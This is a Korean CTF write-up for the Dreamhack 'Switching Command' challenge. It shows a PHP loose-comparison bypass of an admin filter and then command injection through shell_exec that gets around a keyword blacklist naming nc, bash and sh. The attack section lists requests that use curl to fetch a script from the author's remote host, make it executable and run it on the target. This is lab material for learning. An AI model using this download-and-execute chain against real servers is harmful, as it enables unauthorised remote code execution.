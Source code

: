 ```yaml
---
title: Switching Commnad
author: heogi
date: 2024-01-07
categories:
  - CTF
  - Dreamhack
tags:
  - Dreamhack
  - php
  - loose-comparision
comments: true
---
```

## **0\. Description**

Not Friendly service… Can you switching the command?

## **1\. Analysis**

페이지에 접속하면 Username을 입력할 수 있는 화면이 보인다.

다운로드 받은 코드를 확인해보면 사용자 입력값에 대해 json\_decode()를 통해 json 데이터를 파싱한다.

Username이 admin일 경우 Admin Session을 가지고 test.php로 이동한다.

```php
#index.php
if ($_SERVER["REQUEST_METHOD"]=="POST"){
    $data = json_decode($_POST["username"]);

    if ($data === null) {
        exit("Failed to parse JSON data");
    }
        
    $username = $data->username;

    if($username === "admin" ){
        exit("no hack");
    }

    switch($username){
        case "admin":
            $user = "admin";
            $password = "***REDACTED***";
            $stmt = $conn -> prepare("SELECT * FROM users WHERE username = ? AND password = ?");
            $stmt -> bind_param("ss",$user,$password);
            $stmt -> execute();
            $result = $stmt -> get_result();
            if ($result -> num_rows == 1){
                $_SESSION["auth"] = "admin";
                header("Location: test.php");
            } else {
                $message = "Something wrong...";
            }
            break;
        default:
            $_SESSION["auth"] = "guest";
            header("Location: test.php");
            
    }
}
```

첫번째 문제는 switch 문에서 case "admin"으로 진입해 admin 세션을 할당받아야하는데 "admin" 문자열은 필터링이 되고있다.

admin 필터링에서는 `===(strict comparision)`을 사용하여 자료형까지 같은지 확인하고있다.

하지만 switch/case 문에서는 아래 처럼 `loose comparision`을 사용한다고 되어있다.

![](../assets/img/Pasted%20image%2020240413002912.png)

이 부분을 이용하여 `username={"username":true}`를 입력하면 "admin" 필터링은 우회하며, case "admin": 문은 통과할 수 있다.

![](../assets/img/Pasted%20image%2020240413002927.png)
![](../assets/img/Pasted%20image%2020240413002934.png)
![](../assets/img/Pasted%20image%2020240413002943.png)

다음은 test.php의 내용을 통해 flag를 획득해야한다. 아래는 test.php의 내용이다.

```php
#test.php
$pattern = '/\b(flag|nc|netcat|bin|bash|rm|sh)\b/i';

if($_SESSION["auth"] === "admin"){

    $command = isset($_GET["cmd"]) ? $_GET["cmd"] : "ls";
    $sanitized_command = str_replace("\n","",$command);
    
    if (preg_match($pattern, $sanitized_command)){
        exit("No hack");
    }
    $resulttt = shell_exec(escapeshellcmd($sanitized_command));
}
```

cmd 파라미터를 통해 입력 받은 값을 `shell_exec()`로 실행한다.

과정에서 특정 문자열 패턴과 `escapeshellcmd()`를 통해 Sanitize를 수행한다.

결국 cmd는 서버 내부에서 실행되는 명령으로 다양한 서버 명령을 사용해볼 수 있다.

하지만 test.php에서 `$result` 변수는 화면에 출력이 되도록 되어있지만, `$resulttt`는 출력이 되지 않아 단순히 플래그를 실행하여 값을 확인할 수는 없다.

wget 또는 curl을 통해 원격지에서 파일을 받을 수 있는지 테스트해보니 curl을 통해 원격지 파일을 다운로드 받을 수 있음을 확인했다.

PHP 웹쉘 또는 `/flag`를 실행하여 pattern에 걸리지 않는 이름으로 파일을 생성하여 접근해보는 방법이 있을거같다.

## **2\. Attack**

후자로 진행을 해보면 아래 처럼 플래그를 획득할 수 있다.

```shell
#Filename:heogi
#!/bin/bash

/flag > te.ttt
```

```
1. GET /test.php?cmd=curl ctf.heogi.com/heogi -o heogi
2. GET /test.php?cmd=chmod 777 heogi
3. GET /test.php?cmd=/var/www/html/heogi
4. GET /te.ttt
```

![](../assets/img/Pasted%20image%2020240413002955.png)